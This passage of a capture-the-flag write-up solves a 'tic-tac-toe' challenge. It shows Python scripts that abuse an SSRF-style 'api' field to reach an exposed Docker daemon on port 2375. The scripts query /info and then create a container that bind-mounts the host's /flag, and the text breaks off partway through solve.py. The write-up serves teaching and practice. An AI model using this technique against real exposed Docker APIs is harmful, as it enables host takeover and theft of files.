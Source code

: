 ```Dockerfile
ENV DOCKER_HOST="tcp://localhost:2375"
```

How is this information useful you ask? Well, let's say that exposing your docker daemon brings deamons.
The kind that lets us interact with the host machine and create, start, stop, execute any docker command we like.

## 2. Task Analysis

The challenge overview was long I know, but now we know what we have to do. Since we think that dockerd
is exposed through the network, we first should make an HTTP request to `http://localhost:2375/info` to verify our assumption.

```python
import requests

url = 'http://localhost:80'
# url = 'https://tic-tac-toe-c8ae075ea3c02b7e.ctf.pearlctf.in'
payload = {
    'api': {"8000/<game_action>": "2375/info"},
    'state': "_________",
    'action': 'get',
}
info = requests.post(url, json=payload).json()
print(info)
```

> I'll leave the burden of understand my script to you. You have all the pieces you need.

![system-info](/blog/images/2025-03-09-22-53-14.png)

Nice! We confirmed our assumption. We can move to the next step, which is retrieving the flag.

---

To get the flag, the simplest we can do is create a container using the already existing image.
Mout the host filesystem into this newly created container, and just cat-ing out the flag.txt file.

## 3. Solution

All the steps mentioned above are below on this script:

### `solve.py`

```python
#!/usr/bin/env python3

import requests

url = 'http://localhost:80'
# url = 'https://tic-tac-toe-c8ae075ea3c02b7e.ctf.pearlctf.in'


# step 0: create a new container that the flag.txt is mounted on
payload = {
    'state': "_________",
    'api': {"8000/<game_action>": "2375/containers/create"},
    'action': 'post',
    "Image": "b3gul4/tic-tac-toe",
    "HostConfig": {
        "Binds": ["/flag:/flag:ro"]
    }
}
container_info = requests.post(url, json=payload).json()
```